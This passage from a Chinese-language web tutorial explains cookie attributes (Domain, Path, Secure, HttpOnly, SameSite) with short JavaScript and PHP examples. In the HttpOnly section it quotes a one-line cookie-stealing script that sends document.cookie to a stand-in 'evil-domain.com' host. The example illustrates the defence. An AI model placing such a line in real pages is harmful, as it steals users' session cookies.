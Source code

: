 <font color=red>如果服务器指定的域名不属于服务器`当前域名`或者其`父域名`，浏览器会拒绝这个 cookie 。</font>
> 继续用上面的例子验证：  
> 1、修改`elin.com`下的页面的`cookie`设置，该 cookie 的`domain`设置为一个不相关的域名
> ![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9pbWdrci5jbi1iai51ZmlsZW9zLmNvbS80ZmRlN2NhOS00NGY5LTRkNjQtOWI1ZC1iMTllNWMxMDAxNzEucG5n?x-oss-process=image/format,png)
> 2、清除该页面下的 cookie，重新访问该页面并查看 cookie
> ![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9pbWdrci5jbi1iai51ZmlsZW9zLmNvbS9iM2M3N2RjMi01NzAwLTQyNTAtYjIxNi04MWI1Yjg5NzMzNmYucG5n?x-oss-process=image/format,png)
> 可以看到没有 cookie，浏览器拒绝了这个 cookie。

### Path
`Path`属性指定浏览器发出`HTTP`请求时，哪些路径要附带这个`cookie`。  
只要浏览器发现，`Path`属性值是`HTTP`请求路径的开头一部分，就会在头信息里面带上这个 cookie 。  
比如，`Path`属性是`/`，那么请求`/docs`路径也会包含该`cookie`。当然，前提是`域名必须一致`。

### Secure
`Secure`属性指定浏览器只有在加密协议`HTTPS`下，才能将这个`cookie`发送到服务器。  
该属性只是一个`开关`，不需要指定值。  
***
通过谷歌浏览器`开发者工具控制台`设置一个Cookie具有Secure属性。
```
document.cookie = 'softwhy="antzone";max-age=1200;path=/;secure;'
```
上述代码执行结果会出现如下两种情况：
（1）如果站点采用HTTPS，那么Cookie生成成功。
（2）如果站点采用HTTP，那么Cookie生成失败。
***
上面是前端JavaScript写入Cookie，后端语言也遵循上面两条规则，看如下PHP代码：
```
<?php
setcookie("softwhy", "antzone", time()+3600, "/", "", 1);
?>
```
如果连接到后端的`请求`采用 HTTPS，那么 Cookie 生成成功。
如果`请求`采用 HTTP，那么 Cookie 生成失败，尽管在`HTTP头部`有对应的 Set-Cookie 内容：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200707223239394.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hhcHB5cXl0,size_16,color_FFFFFF,t_70)
虽然在返回头中有 Set-Cookie 内容，但是不会真正成功生成对应的 Cookie。

### HttpOnly
`HttpOnly`属性指定该`cookie`无法通过`JavaScript`脚本拿到，主要是`document.cookie`、`XMLHttpRequest对象`和`Request API`。这样就防止了该`cookie`被脚本读到，只有浏览器发出`HTTP`请求时，才会带上该`cookie`。
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的`cookie`发往第三方服务器。如果设置了一个`cookie`的`HttpOnly`属性，上面代码就不会读到该`cookie`。

### SameSite
##### SameSite 的作用
> Cookie 的 SameSite 属性就是用来限制第三方 Cookie，从而减少安全风险的。  

